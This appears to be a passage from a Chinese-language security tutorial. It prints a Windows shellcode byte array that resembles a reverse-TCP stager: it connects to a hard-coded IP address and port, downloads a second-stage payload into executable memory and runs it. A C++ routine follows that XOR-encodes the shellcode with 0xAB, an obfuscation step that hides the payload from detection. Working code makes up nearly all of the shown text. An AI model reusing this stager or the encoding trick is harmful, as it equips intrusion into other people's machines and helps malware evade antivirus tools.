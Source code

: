 ```
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x6a\x05\x68\x2d\x4c\x21\x35\x68\x02"
"\x00\x05\x39\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x61\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83"
"\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a"
"\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57"
"\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x22\x58\x68\x00"
"\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68"
"\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\xe9\x71\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc7\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00"
"\x53\xff\xd5";

int main()
  {
    for (unsigned int i = 0; i < sizeof shellcode; ++i)
      {
        if (i % 15 == 0)
          {
            std::cout << "\"\n\"";
          }
        unsigned char val = (unsigned int)shellcode[i] ^ 0xAB;
        std::cout << "\\x" << std::hex << (unsigned int)val;
      }
    _getch();
    return 0;
  }

```

我们可以看到我们刚刚使用`0xAB`对 shellcode 进行了 XOR。这个程序将生成以下输出：

![](img/00091.jpeg)
